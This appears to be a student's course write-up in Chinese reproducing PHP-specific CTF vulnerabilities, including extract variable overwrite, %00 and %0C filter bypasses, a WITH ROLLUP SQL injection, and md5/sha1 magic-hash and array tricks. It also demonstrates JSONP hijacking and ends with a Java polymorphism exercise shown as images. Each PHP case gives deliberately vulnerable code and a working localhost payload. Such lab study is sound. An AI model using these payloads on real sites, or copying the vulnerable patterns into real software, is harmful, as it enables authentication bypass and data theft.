# 一、复现所有 PHP 函数特有漏洞。
## 1. `extract` 变量覆盖
### 1.1 `extract` 函数说明
函数从数组中将变量导入到当前的变量表。该函数使用数组键名作为变量名，使用数组键值作为变量值。**如果有冲突，覆盖已有的变量**。
### 1.2 小题
```php
 <?php
 $magedu = 'extract_file.txt';
 extract($_GET);
 if (isset($student)) {
    $content = trim(file_get_contents($magedu));
    if ($student == $content) {
        echo 'falg{xxxxx}';
    } else {
        echo 'ERROR';
    }
 }
```
**代码说明：** 首先将 `extract_file.txt` 赋值给 `$magedu` 变量，然后获取 `$student` 变量的值，如果和 `extract_file.txt` 文件中内容一致，则拿到 `flag`。   
**解题思路：** 基于`extract()`函数的变量覆盖的特性，GET请求中，将 `$magedu` 变量重新赋值，`$student` 变量不给值，使得下面的判断为 `NULL == NULL`,满足条件后拿到`flag`。   
   
**poc：**   
```url
 http://localhost:3000/19/extract_test.php?magedu=123&student=
```
## 2. 绕过过滤的空⽩字符
### 2.1 空白字符绕过
可以引⼊\f（也就是%0c）在数字前⾯，来绕过最后那个is_palindrome_number函数，⽽对于前⾯的数字判断，因为`intval`会忽略这个字符，所以不会影响。   
   
`trim()`函数不过滤 `%0C`,但是`intval`会忽略，而 `' 191'=='191'` 比较时，两边都会进行数值转换，所以会返回true。
### 2.2 小题
```php
 <?php
    function is_palindrome_number($number) {
        $number = strval($number); //strval — 获取变量的字符串值
        $i = 0;
        $j = strlen($number) - 1; //strlen — 获取字符串⻓度
        while($i < $j) {
            if($number[$i] !== $number[$j]) {
            return false;
        }
            $i++;
            $j--;
        }
        return true;
    }
    # trim() 函数移除字符串两侧的空⽩字符或其他预定义字符
    $a = trim($_GET['number']);
    if(($a==strval(intval($a)))&
    (intval($a)==intval(strrev($a)))&!is_palindrome_number($a)){
        echo 'flag{xxxxx}';
    }
```
**说明：** 想要拿到`flag`需要满足：（1）`$a==strval(intval($a))` a 为纯数字；（2）`intval($a)==intval(strrev($a))` a反转后和原来的值相等；（3）`!is_palindrome_number($a)` 不是一个回文数
**解题思路：** 可以在参数前面添加一个空格，使得第一个第二个条件中在`intval()`函数处理过程中忽略，而在第三个条件中字符挨个比对时，又会被正常检测，所以可以在变量前加个 `%0C` 空白字符来绕过。   

**poc：**   
```url
 http://localhost:3000/19/palindrome_number_test.php?number=%0C191
```
## 3. 多重加密
### 3.1 多重加密说明
当设计加密时，当我们知道他解密算法后，就可以通过逆向加密的方式，获得自己想要的加密串，例如下面的小题。
### 3.2 小题
```php
 <?php
    $request = array_merge($_GET);
    if(isset($request['token'])){
        $login = unserialize(gzuncompress(base64_decode($request['token'])));
        if($login['user'] === 'test123'){
            echo "flag{xxxxx}";
        }else{
            echo 'unserialize injection!!';
        }
    }
```
**说明：** 题中从请求中获取所有参数，然后获取token后，首先进行base64解密，然后进行解压缩，然后进行反序列化，然后获取字典中的user字段是不是等于`test123`，如果相等，就可以获取到`flag`。   
**解题思路：** 可以通过上面的方式反向操作，生成一个自己想要的token。   
```php
 base64_encode(gzcompress(serialize($array)))
```
获取到加密后的密文token（eJxLtDK0qi62MrFSKi1OLVKyLrYyt1IqSS0uMTQyVrKuBQCV7AlL），然后通过请求发送过来，验证是否可以得到`flag`。   
   
**POC：**
```url
 http://localhost:3000/19/login_test.php?token=eJxLtDK0qi62MrFSKi1OLVKyLrYyt1IqSS0uMTQyVrKuBQCV7AlL
```
## 4. SQL注⼊_WITH ROLLUP绕过
### 4.1 `WITH ROLLUP` 简介
在group分组字段的基础上再进行统计数据。   
   
### 4.2 小题
```php
 function AttackFilter($StrKey,$StrValue,$ArrReq){
    if (is_array($StrValue)){
    //检测变量是否是数组
    $StrValue=implode($StrValue);
    //返回由数组元素组合成的字符串
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){
    //匹配成功⼀次后就会停⽌匹配
    print "magedu_error！";
    exit();
    }
 }
 $filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
 foreach($_POST as $key=>$value){
    //遍历数组
    AttackFilter($key,$value,$filter);
 }
 $db="XXXXXX";
 mysql_select_db($db, $con);
 //设置活动的 MySQL 数据库
 $sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
 $query = mysql_query($sql);
 if (mysql_num_rows($query) == 1) {
    //返回结果集中⾏的数⽬
    $key = mysql_fetch_array($query);
    //返回根据从结果集取得的⾏⽣成的数组，如果没有更多⾏则返回 false
    if($key['pwd'] == $_POST['pwd']) {
        echo "flag{xxxxx}";
    }else{
        echo "error";
    }
 }
```
**说明：** 首先上面过滤了sql的一些关键字，其次他判断返回结果必须只有一条，最后判断`pwd`传进来的和数据库中的是否一致，所以要拿到 `flag` 要满足这三个条件。
**解题思路：** 上面代码中使用的是黑名单过滤的方式，我们可以使用名单外的`WITH ROLLUP`，然后通过`limit`来控制返回的条数。使得我们传入的等于查出来的。
```sql
 select user,password from users where user = 'admin' group by password with rollup limit 1,1;
```   
   
**poc：**
```text
 uname = admin' group by pwd with rollup limit 1,1 #
```
## 5.ereg正则%00截断
### 5.1 简介
ereg函数 读到`%00`的时候，就截止了。
### 5.2 小题
```php
 <?php
    $flag = "flag{xxxxx}";
    if (isset ($_GET['password']))
    {
        if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
        {
            echo '<p>You password must be alphanumeric</p>';
        }
        else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
        {
            if (strpos ($_GET['password'], '*-*') !== FALSE) //strpos — 查找字符串⾸次出现的位置
            {
                die('Flag: ' . $flag);
            }
            else
            {
                echo('<p>*-* have not been found</p>');
            }
        }
        else
        {
            echo '<p>Invalid password</p>';
        }
    }
 ?>
```
**说明：** 本题中首先`password`需要满足字母和数字，其次他的长度必须小于8，但是他的值必须大于7个9，最后还必须包含`*_*`;   
**解题思路：** 首先要求长度小于8位但是又大于9999999,可以使用科学计数法`1e7`,然后password中还需要存在`*_*`,那么就需要绕过`ereg`函数，可以通过`%00`阶段对`*_*`的校验。
**POC：**
```url
 ?password=1e7%00*-*
```
## 6. sha()函数⽐较绕过
### 6.1 简介
`sha1()`函数默认传入的参数为字符串，在传入数组的时候就会报错，使得`sha()1`就会返回错误，也就是false。
### 6.2 小题
```php
 <?php
    $flag = "flag{xxxxxx}";
    if (isset($_GET['name']) and isset($_GET['password']))
    {
        if ($_GET['name'] == $_GET['password'])
            echo '<p>Your password can not be your name!</p>';
        else if (sha1($_GET['name']) === sha1($_GET['password']))
            die('Flag: '.$flag);
        else
            echo '<p>Invalid password.</p>';
    }
    else
        echo '<p>Login first!</p>';
 ?>
```
**说明：** 首先接收两个参数，分别是`name` 和 `password`，如果他们相等就会返回错误，然后通过`sha1()`函数进行比对，如果相等，就拿到flag。   
**解题思路：** 基于`sha1()`函数报错的机制，使得 `name` 和 `password` 的比较均报错，然后比对成功。   
   
**POC：**
```url
 http://localhost:3000/19/sha1_test.php?name[]=123&password[]=222
```
## 7. SESSION验证绕过
```php
    $flag = "flag{xxxxx}";
    session_start();
    if (isset ($_GET['password'])) {
        if ($_GET['password'] == $_SESSION['password'])
            die ('Flag: '.$flag);
        else
            print '<p>Wrong guess.</p>';
    }
    mt_srand((microtime() ^ rand(1, 10000)) % rand(1, 10000) + rand(1, 10000));
```
**说明：** 题中当参数中的`password` 和 session 中的 `password` 相等的时候，就可以拿到`flag`。
**解题思路：** 因为无法破译出session的password的具体值是多少，所以可以让两个都等于`NULL`，使得 `NULL` == `NULL`，从而成功拿到 `flag`，这样的话，我们只需要删除cookie中的值，以及传入的参数中的值。
   
## 8. 密码md5⽐较绕过
### 8.1 基础概念
1. `md5`: 全称为 消息摘要算法版本5 （Message Digest Algorithm 5） 它是一种 Hash 算法。使用PHP中的md5函数，可以将传入的字符串转为32位长度的hash散列后的字符串。   
2. `==`比较: php中 `==` 对⽐的时候会进⾏数据转换。   
3. `===`比较: 是对值和类型的比较。   
```text
 1.==只是对值得比较（将两边值转化为同类型再比较），而===则是对值和类型的比较。
 2.对于==的比较，若有一方为数字，另一方为字符串或空或null，均会先将非数字一方转化为0，再做比较。
```   
### 8.2 小题
```php
 <?php
    error_reporting(0);
    $flag = 'flag{xxxxx}';
    if (isset($_GET['username']) and isset($_GET['password'])) {
        if ($_GET['username'] == $_GET['password'])
            print 'Your password can not be your username.';
        else if (md5($_GET['username']) == md5($_GET['password']))
            die('Flag: '.$flag);
        else
            print 'Invalid password';
    }
 ?>
```
**说明：** 传入的参数中有`username` 和 `password`,这两个参数不能相等，但是他们`md5`之后 `==`比较相等，就能拿到`flag`。
**思路：** 可以使用上面的报错方式，另外使用 `==`的特性，使得`md5`之后的值在`==`转换比较时相等。
   
md5后`==`相等的值有：   
```text
 md5('240610708');//0e462097431906509019562988736854
 md5('QNKCDZO') //0e830400451993494058024219903391
 0e 纯数字这种格式的字符串在判断相等的时候会被认为是科学计数法的数字，先做字符串到数字的转换。
 md5('240610708')==md5('QNKCDZO');
 var_dump(md5('240610708') == md5('QNKCDZO'));
 var_dump(md5('aabg7XSs') == md5('aabC9RqS'));
 var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
 var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
 var_dump('0010e2' == '1e3');
 var_dump('0x1234Ab' == '1193131');
 var_dump('0xABCdef' == ' 0xABCdef');
```   
   
当 `===` 时，只能使用报错绕过的方式。
## 9. urldecode⼆次编码绕过   
```php
 if(mb_ereg("password",$_GET['id'])) {
    echo("<p>not allowed!</p>");
    exit();
 }
 $_GET['id'] = urldecode($_GET['id']);
 if($_GET['id'] == "password")
 {
    echo "<p>Access granted!</p>";
    echo "<p>flag: This is flag!!!} </p>";
 }
?>
```
**说明：** 通过参数传入`id`,并且通过正则匹配，不可以为`password`,接下来会`urldecode`处理,然后比对参数 `id`的值是不是 `password`，如果是的话，就可拿到`flag`。   
**思路：** 可以通过将`password`中的内容进行url编码，绕过第一次的正则检测，然后让urldecode之后与`password`比较，相等，由于浏览器的⼀次urldecode，再由服务器端函数的⼀次decode，造成⼆次编码，⽽绕过过滤。   
   
   
## 10. intval函数四舍五⼊
### 10.1 基本概念
`intval()` 函数可以获取变量的整数值。常用于强制类型转换。
### 10.2 小题
```php
 if($_GET["id"]) {
    $id = intval($_GET["id"]);
    if ($_GET["id"]==1024) {
        echo "<p>no! try again</p>";
    }
    else if($id == 1024){
        echo "flag{xxxxx}";
    }
 }
```
**说明：** 接收一个参数`id`,当id等于1024的时候返回报错信息，但是将此参数 `intval` 处理之后，如果值等于1024，那么就可以拿到`flag`。   
**思路：** 传入一个小数值，绕过第一个1024的过滤，然后 `intval`函数处理后，转为整数，再次比较相等，获取到 `flag`。   
   
**POC：**
```url
 http://localhost:3000/19/intval_test.php?id=1024.1
```
# 二、复现 jsonp 劫持漏洞。
## 1. 原理
JavaScript是⼀种在Web开发中经常使⽤的前端动态脚本技术。在JavaScript中，有⼀个很重要的安全性限制，被称为“Same-Origin Policy”（同源策略）。这⼀策略对于JavaScript代码能够访问的⻚⾯内容做了很重要的限制，即JavaScript只能访问与包含它的⽂档在同⼀域下的内容。利⽤在⻚⾯中创建 `<script>` 节点的⽅法向不同域提交HTTP请求的⽅法称为JSONP，这项技术可以解决跨域提交Ajax请求的问题。JSONP的最基本的原理是：动态添加⼀个 `<script>` 标签，⽽script标签的src属性是没有跨域的限制的。
## 2. 复现
html代码：   
```html
 <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
 <html xmlns="http://www.w3.org/1999/xhtml" >
 <head>
 <title>Test Jsonp</title>
 <script type="text/javascript">
    function jsonpCallback(result)
    {
        alert(result.msg);
    }
 </script>
 <script type="text/javascript" src="http://huanxue.com:3000/19/jsonServerResponse.php?jsonp=jsonpCallback"> </script>
 </head>
 <body>
 </body>
 </html>
```
**说明：** 通过`script`标签src发送跨域请求，然后调用方法`jsonpCallback`,弹出返回内容。   
php代码：   
```php
 <?php
 $call_method = $_GET['jsonp'];
 echo $call_method . "({msg: 'json data'})";
```
**说明：** 通过获取到方法名然后拼接调用的方法，执行调用。   
   
# 三、复现课件中 Java 多态代码。
## 1. 多态
多态是同一个行为具有多个不同表现形式或形态的能力。多态就是同一个接口，使用不同的实例而执行不同操作。
## 2. 代码实现
```text
 简介：实现一个这样的功能，主人可以给家中的不同宠物喂不同的食物，宠物有狗和猫，狗吃骨头，猫吃鱼。运用多态的方式是的主人拥有通用的投喂能力，实际的动作根据不同的宠物和食物而执行不同的操作。
```
**动物：**   
基类：   
   
子类：   
   
   
**食物：**   
基类：   
   
子类：   
   
   
**主人：**   
   
**运行代码：**   
